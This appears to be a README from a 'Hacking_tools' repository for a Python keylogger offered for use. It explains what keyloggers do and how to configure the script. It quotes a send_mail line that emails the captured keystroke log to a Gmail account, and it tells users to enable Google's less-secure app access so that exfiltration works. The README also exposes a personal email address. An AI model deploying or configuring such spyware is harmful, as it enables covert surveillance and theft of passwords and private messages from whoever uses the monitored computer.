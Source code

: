# Hacking_tools

# Keylogger

A keylogger, sometimes called a keystroke logger or system monitor, is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. Keylogger software is also available for use on smartphones, such as the Apple iPhone and Android devices but it is a simple keylogger program.

[+] Requirements: Python IDEs Ex: Pycharm, PyDev, IDLE, Spyder etc.. and Internet.

[+] Note: Before executing keylogger.py make sure that you have provided a proper email id and password in the line.
self.send_mail("arnavkumar6360@gmail.com", "Your Password", self.log)
For Ex: self.send_mail("Your email id ", "abc123def456", self.log)
Also enable the Less secure app access of your google account to receive the mail send by the program.
    
[+] Link to enable Less secure app access https://myaccount.google.com/lesssecureapps
